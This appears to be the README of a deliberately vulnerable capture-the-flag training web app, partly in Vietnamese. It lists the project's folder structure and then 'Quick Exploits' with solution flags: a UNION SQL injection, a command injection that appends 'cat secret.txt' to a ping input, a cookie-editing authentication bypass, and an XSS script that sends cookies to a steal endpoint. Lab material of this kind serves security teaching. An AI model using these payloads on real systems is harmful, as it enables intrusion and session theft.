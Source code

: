 ## 🏗️ Cấu Trúc Dự Án

### Cấu Trúc Mới (MVC)

```
src/
├── config/          # Cấu hình
├── controllers/     # Business logic
├── models/          # Data models
├── routes/          # Route definitions
├── middleware/      # Middleware functions
├── services/        # Business services
└── app.js          # Main application
```

### Cấu Trúc Cũ (Monolithic)

```
server.js           # Main server file
browser-automation.js # Chrome automation
views/              # EJS templates
public/             # Static assets
```

## 🎯 Quick Exploits

### SQL Injection

```bash
# Tìm kiếm: ' UNION SELECT id, flag FROM secret--
# FLAG: FLAG{SQL_1nj3ct10n_M4st3r}
```

### Command Injection

```bash
# Ping: 8.8.8.8; cat secret.txt
# FLAG: FLAG{C0mm4nd_1nj3ct10n_M4st3r_2024}
```

### Authentication Bypass

```bash
# 1. Login: user1 / password1
# 2. F12 → Application → Cookies → Sửa auth thành admin:admin123
# 3. Refresh → FLAG: FLAG{4uth_Byp4ss_C00k13_H4ck}
```

### XSS + Session Hijacking

```html
<!-- Post comment: -->
<script>
    fetch("/api/steal?cookie=" + document.cookie);
</script>
<!-- Chrome sẽ tự động mở và trigger XSS! -->
```
